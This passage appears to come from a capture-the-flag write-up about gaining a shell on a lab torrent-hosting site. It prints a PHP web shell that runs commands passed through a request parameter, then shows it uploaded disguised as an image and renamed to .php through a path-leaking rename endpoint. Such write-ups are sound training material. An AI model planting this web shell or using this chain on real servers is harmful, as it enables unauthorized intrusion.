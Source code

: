 

Once logged in, we can reach the upload page shown above. At this point, there are atleast two ways to get remote code execution. In the next subsection, we'll cover the easier way to do it. After that subsection, there is a subsection detailing how remote code execution can be obtained by uploading a malicious torrent.

## Initial Shell - Uploading a Malicious Image
If we try to upload a torrent file, the upload is successful and we are redirected to the page below, which represents the uploaded torrent. It is possible to find a [legitimate torrent](https://kali.download/base-images/kali-2021.3/kali-linux-2021.3a-installer-amd64.iso.torrent) file to upload on the [Kali Linux website](https://www.kali.org/get-kali/), among other websites.

![torrentPagePicture](/assets/{{ imgDir }}/torrentPagePicture.png)

![uploadTorrentImage](/assets/{{ imgDir }}/uploadTorrentImage.png)

On this page, we can click the `Edit this torrent` button to bring up the web page in the image above, where we can change the screenshot of the torrent. After trying to upload a variety of images and playing around with these requests, it is possible to conclude that the website appears to be accepting files with arbitrary content as long as the file's extension is a valid extension for images (such as `.png`, `.jpg` e.t.c). As such, we create a file named "webShell.png" with the content below, and upload it.

{% highlight php linenos %}
<?php
$cmd = ($_REQUEST['cmd']);
system($cmd);
?>
{% endhighlight %}

![image404](/assets/{{ imgDir }}/image404.png)

If we refresh the page which shows information about our torrent file, we can see that the image has been substituted for an image with the text "Image File Not Found", as can be seen in the image above. The next step is to find where our malicious image was uploaded. If we hover over the new image with the mouse cursor, it is possible to see that it links to a location on the web server `http://10.10.10.6/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png`. This is the image file we uploaded. Since our image was not a valid image, the screenshot was changed to the "Image File Not Found" image while the link to our uploaded image remained intact. The next thing we need to do is to change the extension of this file to `.php`. If we visit the URL `http://10.10.10.6/rename/index.php?filename=/x&newfilename=/x` we get the response shown below, which leaks the web root of the web application. 

![webRootLeak](/assets/{{ imgDir }}/webRootLeak.png)

In this response, we see that `/var/www` is the root directory of the web application. As such, the full path to the malicious image file should be `/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png`. As such, we can visit `http://10.10.10.6/rename/index.php?filename=/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.png&newfilename=/var/www/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.php` to change its extension to `.php`. Upon visiting the URL, the web server responds with the message `OK!` indicating that it successfully renamed the file. If we navigate to `http://10.10.10.6/torrent/upload/eb2af9670237f53152c68317b252bf49403ce545.php?cmd=id`, as shown below, we can see that we do indeed have code execution on the target!
